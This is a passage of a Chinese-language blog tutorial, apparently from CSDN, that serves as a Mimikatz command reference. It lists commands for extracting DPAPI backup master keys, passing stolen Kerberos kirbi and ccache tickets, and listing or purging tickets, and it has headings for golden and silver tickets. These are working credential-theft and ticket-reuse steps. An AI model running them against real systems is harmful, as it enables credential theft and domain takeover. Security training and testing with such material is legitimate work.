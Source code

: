 ![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007162059110.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​ 

backupkeys:获取首选的备份主密钥

```text
sekurlsa::backupkeys
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007162119822.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​ 

### \*\*\*\*[**kerberos**](https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos)\*\*\*\*

> ptt，golden / silver，list，tgt，purge, ****Hash,PTC

**ptt:传递kirbi凭据**  


```text
kerberos::ptt c:\users\piggg\desktop\gold.kirbi /use
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

**ptc:传递ccache凭据**

```text
kerberos::ptc c:\users\piggg\desktop\gold.ccache
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

**golden / silver：黄金票据和白银票据：**  


黄金票据

白银票据

**list：列出用户存储器中的所有用户票证（TGT和TGS）。不需要特殊特权，因为它仅显示当前用户的票证。**  


```text
kerberos::list
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

 ![](https://img-blog.csdnimg.cn/20201007163100315.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​

![](https://img-blog.csdnimg.cn/20201007163115450.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


**purge:清除所有Kerberos票证**  
